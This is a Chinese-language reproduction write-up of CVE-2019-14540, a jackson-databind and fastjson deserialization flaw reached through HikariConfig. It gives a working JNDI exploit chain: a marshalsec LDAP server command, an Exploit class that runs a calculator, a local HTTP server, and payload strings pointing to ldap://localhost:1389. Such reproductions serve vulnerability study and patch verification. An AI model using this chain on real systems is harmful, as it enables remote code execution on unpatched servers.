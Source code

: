 # （CVE-2019-14540）FasterXML jackson-databind 远程命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2929](https://www.zhihuifly.com/t/topic/2929)

# （CVE-2019-14540）FasterXML jackson-databind 远程命令执行漏洞

## 一、漏洞简介

FasterXML Jackson是美国FasterXML公司的一款适用于Java的数据处理工具。jackson-databind是其中的一个具有数据绑定功能的组件。 FasterXML jackson-databind 2.9.10之前版本中存在输入验证错误漏洞。攻击者可利用该漏洞执行代码。

## 二、漏洞影响

jackson-databind <=2.7.9.6,2.8.11.4,2.9.9.3

fastjson <= 1.2.59

## 三、复现过程

### 分析过程

我喜欢用 gradle 来管理项目，先依赖一个最新版的回来

```
compile 'com.zaxxer:HikariCP:2.4.0' 
```

观察 HikariConfig.java 的setter 和 getter 方法，稍微有点常识的人都能看出， setMetricRegistry 和 setHealthCheckRegistry 里有明显的lookup方法，下一步就是按照标准的剧本去利用一遍了，经典的jndi漏洞利用，老司机应该分分钟就搞定，但我从来没写过利用，就从头学习一下。

### 利用过程（常见的jndi利用）

首先，我利用的是 ldap 协议，需要在低版本（小于 java8u191）下利用，详细原理我不是很清楚，大致原理就是从远程加载一个 class文件，调用它的构造函数，在构造函数里可以执行任意代码。

然后，借用 https://github.com/ianxtianxt/marshalsec 提供的转发功能，创建 ldap server，作用是转发到另一个 http server 上，使用非常方便。

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 1389 `Listening on 0.0.0.0:1389` 
```

然后编译一个 Exploit.class 出来，找个地方放好

```
public class Exploit {
    public Exploit() {
        try {
            if (System.getProperty("os.name").toLowerCase().startsWith("win")) {
                Runtime.getRuntime().exec("calc.exe");
            } else if (System.getProperty("os.name").toLowerCase().startsWith("mac")) {
                Runtime.getRuntime().exec("open /Applications/Calculator.app");
            } else {
                System.out.println("No calc for you!");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
} 
```

然后在 Exploit.class 目录，开一个 http 服务

```
python -m SimpleHTTPServer 
```

之后使用 jackson 进行反序列化

```
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
mapper.readValue("[\"com.zaxxer.hikari.HikariConfig\", {\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}]".getBytes(), Object.class); 
```

或者使用 fastjson 进行反序列化

```
ParserConfig.global.setAutoTypeSupport(true);
JSON.parse("{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}"); 
```

即可触发弹计算器

![image](img/b9e3bb35e193b3e64a08a9d10102e2a1.png)

### 文中代码的github地址:

https://github.com/ianxtianxt/cve-2019-14540-exploit

## 参考链接

> https://www.leadroyal.cn/?p=939

> https://www.restran.net/2018/10/29/fastjson-rce-notes/

> https://paper.seebug.org/942/